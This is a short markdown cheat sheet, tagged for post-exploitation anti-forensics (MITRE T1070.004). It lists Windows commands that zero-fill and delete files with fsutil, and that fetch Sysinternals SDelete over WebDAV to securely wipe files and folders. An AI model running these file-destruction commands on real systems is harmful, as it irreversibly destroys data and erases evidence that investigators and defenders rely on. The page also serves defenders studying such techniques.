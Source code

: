 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - anti-forensics
  - living-off-the-land
  - T1070-004
  - windows
---
```

# Living off the Land

## 01 - Command Prompt

> [!INFO] Elevated Permissions Required
> It requires administrative privileges to overwrite the file.

```
C:\> fsutil.exe file setZeroData offset=0 length=524288 [<drive_letter>:\]path\to\file & del /f /q [<drive_letter>:\]path\to\file

C:\> fsutil.exe file setZeroData offset=0 length=9999999999 [<drive_letter>:\]path\to\file & del /f /q [<drive_letter>:\]path\to\file
```

## 02 - Sysinternals

### 2.1 - Copy File from WebDAV

#### 2.1.1 - Command Prompt

```
C:\> net.exe use z: \\live.sysinternals.com\tools

copy z:\SDelete64.exe .

net.exe use z: /delete
```

#### 2.1.2 - PowerShell

```
PS C:\> New-PSDrive -Name Z -PSProvider FileSystem -Root "\\live.sysinternals.com\tools"

PS C:\> Copy-Item z:\SDelete64.exe .

PS C:\> Remove-PSDrive -Name Z
```

Accept EULA

```
C:\> .\SDelete64.exe -accepteula
```

Delete folder.

```
C:\> .\SDelete64.exe -s -z [<drive_letter>:\]folder\
```

Delete file.

```
C:\> .\SDelete64.exe -p 50 [<drive_letter>:\]path\to\file.txt
```

---
## References

### LOLBAS

- [LOLBAS: fsutil](https://lolbas-project.github.io/lolbas/Binaries/Fsutil/)